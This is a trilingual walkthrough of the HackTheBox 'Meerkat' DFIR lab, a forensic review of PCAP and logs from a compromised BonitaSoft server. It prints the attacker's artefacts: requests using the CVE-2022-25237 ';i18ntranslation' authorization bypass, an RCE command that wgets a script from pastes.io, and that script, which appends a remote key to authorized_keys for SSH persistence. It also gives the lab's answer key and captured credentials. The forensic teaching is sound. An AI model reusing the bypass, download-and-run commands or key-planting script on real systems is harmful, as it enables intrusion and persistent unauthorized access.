


# Meerkat [verificar]

> **ES:** Sherlock DFIR: PCAP + logs de la plataforma de gestión de Forela para confirmar si hubo intrusión (BonitaSoft, credential stuffing, CVE-2022-25237, persistencia SSH).
> **EN:** DFIR sherlock: PCAP + logs from Forela's management platform to confirm intrusion (BonitaSoft, credential stuffing, CVE-2022-25237, SSH persistence).

| Campo | Valor |
|-------|-------|
| **Tipo** | DFIR |
| **URL** | https://app.hackthebox.com/sherlocks/meerkat |
| **Evidencia** | meerkat.zip |

:::info Sherlock Scenario

As a fast growing startup, Forela have been utilising a business management platform. Unfortunately our documentation is scarce and our administrators aren't the most security aware. As our new security provider we'd like you to take a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

> [ZH] 作为一个快速发展的初创企业，Forela 一直在利用一个商业管理平台。……确认我们是否受到了（或者没有受到）侵害。
> **ES:** Startup con plataforma de gestión y admins poco concienciados: revisar PCAP + logs y dictaminar si hubo compromiso.
> **EN:** Startup with a management platform and lax admins: review PCAP + logs and rule on compromise.

:::

## 题目数据 / Datos / Data

[meerkat.zip](./meerkat.zip)

## Task 1 — Aplicación en ejecución / Running application

> [ZH] 我们相信我们的商业管理平台服务器已经遭到了入侵。请确认正在运行的应用程序名称。
> **ES:** El servidor de la plataforma habría sido comprometido: confirmar el nombre de la aplicación en ejecución.
> **EN:** The platform server was allegedly compromised: confirm the running application name.

En la captura, filtrar por el servidor:

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

En las URL aparece el string:

```plaintext
bonita
```

que corresponde a la plataforma `bonitasoft`.

```plaintext title="Answer"
bonitasoft
```

## Task 2 — Tipo de ataque / Attack type

> [ZH] 我们相信攻击者可能使用了暴力破解攻击类别的子集 - 所进行的攻击名称是什么？
> **ES:** El atacante habría usado un subtipo de fuerza bruta: ¿qué nombre recibe ese ataque?
> **EN:** The attacker allegedly used a brute-force subset: what is that attack called?

En el tráfico HTTP posterior se ven oleadas de logins fallidos → intento de relleno de credenciales.

```plaintext title="Answer"
Credential Stuffing
```

## Task 3 — CVE explotado / Exploited CVE

> [ZH] 被利用的漏洞是否有 CVE 编号 - 如果有，是哪一个？
> **ES:** ¿La vulnerabilidad explotada tiene CVE? ¿Cuál?
> **EN:** Does the exploited vuln have a CVE? Which one?

:::note

> **ES:** Para analizar, se exportó a un pcap nuevo el tráfico del filtro `(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http`. Los números de stream TCP pueden no coincidir con el pcap original.
> **EN:** For analysis, the filtered traffic was exported to a new pcap, so TCP stream numbers may differ from the original.

:::

Tras el login exitoso el atacante envía un zip por POST y lo utiliza:





Con esa información se identifica:

```plaintext title="Answer"
CVE-2022-25237
```

## Task 4 — Bypass del filtro de autorización / Auth filter bypass

> [ZH] 攻击者的利用是通过在 API URL 路径上附加了哪个字符串来绕过授权过滤器的？
> **ES:** ¿Qué string anexado a la ruta de la API permitió bypassear el filtro de autorización?
> **EN:** Which string appended to the API path bypassed the authorization filter?

URLs accedidas por el atacante:

```plaintext
/bonita/API/portal/page/;i18ntranslation
/bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
/bonita/API/portal/page/133;i18ntranslation
```

El string es `i18ntranslation`.

```plaintext title="Answer"
i18ntranslation
```

## Task 5 — Combinaciones probadas / Tested combinations

> [ZH] 在凭证填充攻击中使用了多少组用户名和密码的组合？
> **ES:** ¿Cuántas combinaciones usuario/contraseña se probaron en el stuffing?
> **EN:** How many username/password combos were tried in the stuffing?

Basta contar los POST con respuesta 204:

```plaintext
http POST url=="/bonita/loginservice" status_code==204
```

```plaintext title="Answer"
56
```

## Task 6 — Credenciales válidas / Working credentials

> [ZH] 哪个用户名和密码组合成功了？
> **ES:** ¿Qué combinación usuario/contraseña funcionó?
> **EN:** Which username/password combo worked?

Revisar la última petición del stuffing:

```plaintext
POST /bonita/loginservice HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Cookie: x=x
Content-Length: 59

username=seb.broom@forela.co.uk&password=g0vernm3nt&_l=enHTTP/1.1 204
Set-Cookie: bonita.tenant=1; SameSite=Lax
Set-Cookie: JSESSIONID=772FE3C83B1A0815EC3AFA1C098B40E9; Path=/bonita; HttpOnly; SameSite=Lax
Set-Cookie: X-Bonita-API-Token=d350c469-2660-4504-9bea-4dbfa41ed9a4; Path=/bonita; SameSite=Lax
Set-Cookie: BOS_Locale=en; Path=/; SameSite=Lax
Date: Thu, 19 Jan 2023 15:39:17 GMT
Keep-Alive: timeout=20
Connection: keep-alive
```

De ahí:

```plaintext
username: seb.broom@forela.co.uk
password: g0vernm3nt
```

```plaintext title="Answer"
seb.broom@forela.co.uk:g0vernm3nt
```

## Task 7 — Sitio de pastes / Paste site

> [ZH] 如果有的话，攻击者使用了哪个文本分享网站？
> **ES:** Si lo hubo, ¿qué sitio de texto compartido usó el atacante?
> **EN:** If any, which text-sharing site did the attacker use?

En el tráfico aparece esta sesión:

```plaintext
GET /bonita/API/extension/rce?p=0&c=1&cmd=wget https://pastes.io/raw/bx5gcr0et8 HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: JSESSIONID=745EE4F7243DA99264F07781FBB9B4E3; X-Bonita-API-Token=1ccb3fac-8abd-4cc0-a52e-bb5111198cdf; bonita.tenant=1; BOS_Locale=en

HTTP/1.1 200
Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate
Date: Thu, 19 Jan 2023 15:38:53 GMT
Accept-Ranges: bytes
Server: Restlet-Framework/2.3.12
Content-Type: application/json;charset=UTF-8
Content-Length: 544
Keep-Alive: timeout=20
Connection: keep-alive

{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: 'bx5gcr0et8'\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - 'bx5gcr0et8' saved [113/113]\n\n","currentDate":"2023-01-19"}
```

```plaintext title="Answer"
pastes.io
```

## Task 8 — Clave pública de persistencia / Persistence pubkey file

> [ZH] 请提供攻击者用于在我们主机上获得持久性的公钥文件名。
> **ES:** Indicar el nombre del archivo de clave pública usado para persistir en el host.
> **EN:** Give the public-key filename used to persist on the host.

Analizar el payload remoto `https://pastes.io/raw/bx5gcr0et8`:

```bash title="https://pastes.io/raw/bx5gcr0et8"
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

```plaintext title="Answer"
hffgra4unv
```

## Task 9 — Archivo modificado / Modified file

> [ZH] 您能确认攻击者修改的文件以获取持久性吗？
> **ES:** Confirmar qué archivo modificó el atacante para persistir.
> **EN:** Confirm which file the attacker modified to persist.

El payload anterior lo muestra:

```plaintext title="Answer"
/home/ubuntu/.ssh/authorized_keys
```

## Task 10 — Técnica MITRE / MITRE technique

> [ZH] 您能确认这种持久性机制的 MITRE 技术 ID 吗？
> **ES:** Confirmar el ID de técnica MITRE de este mecanismo de persistencia.
> **EN:** Confirm the MITRE technique ID for this persistence mechanism.

Búsqueda: `MITRE technique authorized_keys` → manipulación de cuentas vía claves SSH autorizadas.

```plaintext title="Answer"
T1098.004
```

---

## ⚠️ Aviso Legal / Disclaimer

> **ES:** Uso educativo y personal únicamente. No afiliado a HackTheBox. Evidencia y respuestas con contexto, no solo la respuesta suelta.
> **EN:** Educational and personal use only. Not affiliated with HackTheBox. Evidence and contextual answers, not bare answers.

_Fecha de edición: 2026-09-24_
